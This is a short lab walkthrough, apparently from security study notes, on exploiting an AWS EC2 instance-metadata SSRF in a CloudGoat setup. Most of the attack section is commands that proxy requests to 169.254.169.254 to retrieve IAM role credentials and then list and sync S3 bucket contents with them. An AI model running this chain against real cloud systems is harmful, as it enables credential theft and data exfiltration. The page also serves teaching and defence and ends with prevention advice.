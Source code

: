 # 👨🔬 Exploiting AWS Misconfigurations

## Basic AWS Services

* VPC - Virtual Private Cloud
  * Logical Data Center in AWS
* EC2 - Elasitic Cloud Compute
  * Runs instances that are similar to VMs
* S3 - Simple Storage Solution
  * Object storage organized into Buckets
* IAM - Identify Access Management
  * How AWS provisions access

## The Problem

The problem exists with an AWS EC2 "feature" called Instance Metadata and an attack known as a Server Side Request Forgery (SSRF).



## Tool

{% embed url="https://github.com/RhinoSecurityLabs/cloudgoat" %}

## Setup

* Nginx running on AWS EC2
* S3 Buckets with sensitive data
* IAM Roles with read access to S3 buckets
* Instance Profile with IAM Roles attached to EC2 instance

## Misconfiguration

The proxy server should be allowed to retrieve information from the web application server and nothing else.

## The attack

* Discover the Proxy Server that allows access to the Instance Metadata service
* Craft a request against the web server that can return data from Instance Metadata Service
* http://169.254.169.254/latest/meta-data/iam/security-credentials/ISRM-WAF-Role
* This returns temporary credentails that can be used to access resources allowed by the IAM role

```
$ curl --proxy capitalbank.tompohl.com:80 http://169.254.169.254/latest/meta-data/iam/security-credentials/ISRM-WAF-Role
```

```
$ telnet capitalbank.tompohl.com 80

GET / HTTP/1.0
```

### Get Meta-Data

```
$ telnet capitalbank.tompohl.com 80

GET http://169.254.169.254/latest
```

### View the directories

```
$ curl --proxy capitalbank.tompohl.com:80 http://169.254.169.254/latest/ && echo
```

### View the meta-data directory

```
$ curl --proxy capitalbank.tompohl.com:80 http://169.254.169.254/latest/meta-data/ && echo
```

### View the iam directory

```
$ curl --proxy capitalbank.tompohl.com:80 http://169.254.169.254/latest/meta-data/iam && echo
```

### View the buckets using leaked creds

```
aws s3api list-buckets
```

### List bucket objetcts

```
aws s3 ls icanhazdata
```

### Get Encryption details

```
aws s3api get-bucket-encryption --bucket icanhazdata
```

### Sync the bucket objects into the laptop

```
aws s3 sync s3://icanhazdata
```



## Prevention

* Use least privilege when creating IAM Roles&#x20;
* If you do not need the Instance Metadata API (you don't) then firewall it
* Do not store sensitive data in your provisioning scripts because these can also be read by the Instance Metadata API

